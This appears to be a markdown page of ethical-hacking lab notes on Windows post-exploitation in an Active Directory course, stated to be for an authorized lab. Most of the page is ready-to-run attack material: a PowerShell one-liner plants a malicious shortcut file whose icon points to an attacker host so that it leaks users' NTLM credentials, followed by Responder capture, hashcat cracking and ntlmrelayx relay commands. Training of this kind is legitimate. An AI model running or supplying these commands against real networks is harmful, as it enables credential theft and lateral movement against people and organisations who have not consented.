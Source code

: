 # Windows Post-Exploitation — PEH Lab Notes

Notes from the Practical Ethical Hacking Active Directory lab.  
All actions performed in an **authorized lab environment**.

---

## Capturing NTLM via Malicious `.lnk` Files

**Goal:** Plant a `.lnk` file in a writable share so that when a user browses the folder, the custom icon forces their machine to authenticate to your attacker box over SMB, leaking NTLM credentials.

**Quick flow:**
1. From Meterpreter → `shell` → `net view \\TARGET-SERVER` → find writable share.
2. Map share (`net use Z:`) and test write with `echo test > Z:\file.txt`.
3. In PowerShell, create `.lnk` with `IconLocation` = `\\ATTACKER-IP\icon\foo.ico`.
4. Background the shell (`CTRL+Z`, `y`) to keep session alive.
5. Run Responder or impacket SMB server on Kali.
6. Wait for user to view share → collect hashes.

**One-liner PowerShell from Meterpreter:**
```powershell
$a='192.0.2.10';$d='\\\\TARGET-SERVER\\\\hackme\\\\readme.lnk';$s=New-Object -ComObject WScript.Shell;$l=$s.CreateShortcut($d);$l.TargetPath='cmd.exe';$l.Arguments='/c exit';$l.WorkingDirectory=$env:SystemRoot+'\\System32';$l.IconLocation='\\\\'+$a+'\\icon\\foo.ico';$l.Description='Readme';$l.Save()
```

---

## Collecting Hashes (Quick)

**Responder** — capture NetNTLMv2:
```bash
sudo responder -I eth0 -dwv
```
- Logs in `/usr/share/responder/logs/SMB-NTLMv2-*.txt`.
- Crack with:
```bash
hashcat -m 5600 /path/to/hash.txt /wordlist
```

**ntlmrelayx** — relay or capture:
```bash
echo "\\\\TARGET1" > targets.txt
sudo ntlmrelayx.py -tf targets.txt -smb2support -of hashes.txt
```

---

**Disclaimer:** For PEH lab use only. Do not attempt on networks you do not own or have explicit permission to test.
